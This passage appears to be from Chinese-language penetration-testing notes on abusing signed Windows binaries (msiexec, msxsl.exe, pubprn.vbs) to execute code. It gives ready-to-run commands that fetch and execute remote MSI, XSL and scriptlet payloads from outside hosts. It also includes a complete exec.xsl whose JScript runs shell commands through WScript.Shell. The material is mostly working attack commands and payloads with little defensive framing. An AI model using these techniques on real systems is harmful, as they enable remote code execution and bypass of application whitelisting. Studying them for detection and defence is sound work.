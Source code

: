 目标端
```bash
msiexec /q /i http://192.168.1.109/1.msi
```

**msxsl.exe**

msxsl.exe 是微软用于命令行下处理 XSL 的一个程序，所以通过他，我们可以执行 JavaScript 进而执行系统命令。

下载地址 : https://www.microsoft.com/en-us/download/details.aspx?id=21714

msxsl.exe 需要接受两个文件，XML 及 XSL 文件，可以远程加载
```bash
msxsl http://192.168.1.1/1/demo.xml http://192.168.1.1/1/exec.xsl
```

demo.xml
```xml
<?xml version="1.0"?>
<?xml-stylesheet type="text/xsl" href="exec.xsl" ?>
<customers>
<customer>
<name>Microsoft</name>
</customer>
</customers>
```

exec.xsl
```xml
<?xml version='1.0'?>
<xsl:stylesheet version="1.0"
xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
xmlns:msxsl="urn:schemas-microsoft-com:xslt"
xmlns:user="http://mycompany.com/mynamespace">

<msxsl:script language="JScript" implements-prefix="user">
   function xml(nodelist) {
var r = new ActiveXObject("WScript.Shell").Run("cmd /c calc.exe");
   return nodelist.nextNode().xml;

   }
</msxsl:script>
<xsl:template match="/">
   <xsl:value-of select="user:xml(.)"/>
</xsl:template>
</xsl:stylesheet>
```

**pubprn.vbs**

在 Windows 7 以上版本存在一个名为 PubPrn.vbs 的微软已签名 WSH 脚本，其位于`C:\Windows\System32\Printing_Admin_Scripts\en-US`，仔细观察该脚本可以发现其显然是由用户提供输入（通过命令行参数），之后再将参数传递给 GetObject()

```bash
"C:\Windows\System32\Printing_Admin_Scripts\zh-CN\pubprn.vbs" 127.0.0.1 script:https://gist.githubusercontent.com/enigma0x3/64adf8ba99d4485c478b67e03ae6b04a/raw/a006a47e4075785016a62f7e5170ef36f5247cdb/test.sct
```
